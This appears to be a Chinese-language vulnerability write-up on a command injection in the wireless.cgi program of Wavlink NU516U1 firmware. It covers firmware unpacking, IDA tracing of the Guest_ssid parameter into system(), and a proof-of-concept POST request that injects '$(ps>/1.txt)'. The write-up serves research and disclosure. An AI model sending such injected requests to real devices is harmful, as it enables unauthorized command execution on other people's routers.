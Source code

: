 ```yaml
---
title: wavlink-NU516-wireless
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/8/1 11:20:53 
---
```


# 漏洞概述

Wavlink是一家专注于网络设备和通信解决方案的公司，提供优质的路由器、扩展器和网络配件。其下的WAVLINK-NU516U1型号的固件，功能用于提供打印机服务器网卡，其管理后台存在命令注入漏洞，允许攻击者完成os命令执行。

固件下载地址：

https://docs.wavlink.xyz/Firmware/fm-516u1/

 

 

# 代码审计

对固件binwalk -Me [固件位置] 解包，找到wireless.cgi程序，使用ida打开

 

（逆向分析的过程涉及的伪代码比较长，这里只截取ida显示的关键片段）

 

在main（ida中显示为ftext）函数中，首先获取了用户提交的page参数值

![](Wavlink.assets/1.png)

将page参数值设置为GuestWifi，会跳转进入sub_4032E4函数

![](Wavlink.assets/2.png)

sub_4032E4函数内，获取了Guest_ssid参数值，该值可以post传参可控

![](Wavlink.assets/3.png)

随后Guest_ssid参数值被传入sub_407504函数内

![](Wavlink.assets/4.png)

在其中拼接给v8变量，交给system函数执行，产生了命令注入

![](Wavlink.assets/5.png)

此处反编译代码中，system函数参数显示为空，但在汇编代码中仍然可以判断出其参数为v8

# POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

